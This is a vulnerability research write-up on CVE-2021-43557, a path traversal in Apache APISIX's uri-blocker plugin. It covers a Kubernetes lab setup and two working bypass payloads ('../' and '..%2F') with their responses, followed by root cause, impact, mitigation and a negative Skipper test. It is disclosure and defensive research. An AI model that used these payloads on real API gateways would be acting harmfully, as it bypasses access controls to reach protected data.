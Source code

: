 ```yaml
---
title: "APISIX request_uri variable with risk of path penetration"
author: "Marcin Niemiec"
authorURL: "https://github.com/xvnpw"
authorImageURL: "https://avatars.githubusercontent.com/u/17719543?v=4"
keywords: 
- Apache APISIX
- CVE
- Request_uri
- Security
description: Research report about Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)
tags: [Technology]
---
```


> Research report about Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)

<!--truncate-->

In this article I will present my research on insecure usage of `$request_uri` variable in [Apache APISIX](https://github.com/apache/apisix-ingress-controller/) ingress controller. My work end up in submit of security vulnerability, which was positively confirmed and got CVE-2021-43557\. At the end of article I will mention in short [Skipper](https://github.com/zalando/skipper) which I tested for same problem.

> Apache APISIX is a dynamic, real-time, high-performance API gateway. APISIX provides rich traffic management features such as load balancing, dynamic upstream, canary release, circuit breaking, authentication, observability, and more.

Why `$request_uri` ? This [variable](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_uri) is many times used in authentication and authorization plugins. It’s **not normalized**, so giving a possibility to bypass some restrictions.

In Apache APISIX there is no typical functionality of external authentication/authorization. You can write your own plugin, but it’s quite complicated. To prove that APISIX is vulnerable to path-traversal I will use `uri-blocker` plugin. I’m suspecting that other plugins are also vulnerable but this one is easy to use.

## Setting the stage

Install Apache APISIX into Kubernetes. Use Helm Chart with version **0.7.2**:

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
kubectl create ns ingress-apisix
helm install apisix apisix/apisix \
  --set gateway.type=NodePort \
  --set ingress-controller.enabled=true \
  --namespace ingress-apisix \
  --version 0.7.2
kubectl get service --namespace ingress-apisix
```

In case of problems follow [official guide](https://github.com/apache/apisix-ingress-controller/blob/master/docs/en/latest/deployments/minikube.md).

To create _ingress route_, you need to deploy `ApisixRoute` resource:

```yaml
apiVersion: apisix.apache.org/v2beta1
kind: ApisixRoute
metadata:
  name: public-service-route
spec:
  http:
  - name: public-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /public-service/*
    backends:
        - serviceName: public-service
          servicePort: 8080
    plugins:
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/public-service/(.*)", "/$1"]
  - name: protected-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /protected-service/*
    backends:
        - serviceName: protected-service
          servicePort: 8080
    plugins:
      - name: uri-blocker
        enable: true
        config:
          block_rules: ["^/protected-service(/?).*"]
          case_insensitive: true
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/protected-service/(.*)", "/$1"]
```

Let’s dive deep into it:

- It creates routes for `public-service` and `private-service`
- There is `proxy-rewrite` turned on to remove prefixes
- There is `uri-blocker` plugin configured for `protected-service`. It can look like mistake but this plugin it about to block any requests starting with `/protected-service`

## Exploitation

I’m using Apache APISIX in version **2.10.0**.

Reaching out to Apache APISIX routes in minikube is quite inconvenient: `kubectl exec -it -n ${namespace of Apache APISIX} ${Pod name of Apache APISIX} -- curl --path-as-is http://127.0.0.1:9080/public-service/public -H 'Host: app.test'`. To ease my pain I will write small script that will work as template:

```shell
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

In your case replace `apisix-dc9d99d76-vl5lh` with name of actual Apache APISIX pod.

Let’s start with validation if routes and plugins are working as expected:

```shell
$ ./apisix_request.sh "/public-service/public"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"public data"}
```

```shell
$ ./apisix_request.sh "/protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
```

Yep. `public-service` is available and `protected-service` is blocked by plugin.

Now let’s test payloads:

```shell
$ ./apisix_request.sh "/public-service/../protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

and second one:

```shell
$ ./apisix_request.sh "/public-service/..%2Fprotected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

As you can see in both cases I was able to bypass uri restrictions.

### Root cause

`uri-blocker` plugin is using `ctx.var.request_uri` variable in logic of making blocking decision. You can check it in [code](https://github.com/apache/apisix/blob/11e7824cee0e4ab0145ea7189d991464ade3682a/apisix/plugins/uri-blocker.lua#L98):

![Cause](https://static.apiseven.com/202108/1637634166887-e3805291-5b00-4b7b-9936-0490266f4ed8.png)

### Impact

- Attacker can bypass access control restrictions and perform successful access to routes that shouldn’t be able to;
- Developers of custom plugins have no knowledge that `ngx.var.request_uri` variable is untrusted.

Search for usage of `var.request_uri` gave me a hint that maybe [authz-keycloak plugin](https://github.com/apache/apisix/blob/master/docs/en/latest/plugins/authz-keycloak.md) is affected. You can see [this code](https://github.com/apache/apisix/blob/a3d42e66f60673e408cab2e2ceedc58aee450776/apisix/plugins/authz-keycloak.lua#L578), it looks really nasty. If there is no normalization on keycloak side, then there is high potential for vulnerablity.

### Mitigation

In case of custom plugins, I suggest to do path normalization before using `ngx.var.request_uri` variable. There are also two other variables, high probably normalized, to check `ctx.var.upstream_uri` and `ctx.var.uri`.

## Skipper

Skipper is another ingress controller that I have investigated. It’s not easy to install it in kubernetes, because deployment guide and helm charts are outdated. Luckily I have found issue page where developer was describing how to install it. This ingress gives possibility to implement external authentication based on [webhook filter](https://opensource.zalando.com/skipper/reference/filters/#webhook):

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    zalando.org/skipper-filter: |
            modPath("^/.*/", "/") -> setRequestHeader("X-Auth-Request-Redirect", "${request.path}") -> webhook("http://auth-service.default.svc.cluster.local:8080/verify")
```

To add some interesting headers that could help in access control decision, you need to do it manually with `setRequestHeader` filter. There is template available to inject variable by `${}`. Sadly (for attackers) `${request.path}` is having normalized path. I see in code that developers are not using _easily_ `RequestURI` or `originalRequest`.

I wasn’t able to exploit path traversal in this case. Skipper remains safe.

## Summary

Apache APISIX is vulnerable for path traversal. It’s not affecting any external authentication, but plugins that are using `ctx.var.request_uri` variable.

Whole code of this example is here [https://github.com/xvnpw/k8s-CVE-2021-43557-poc](https://github.com/xvnpw/k8s-CVE-2021-43557-poc).
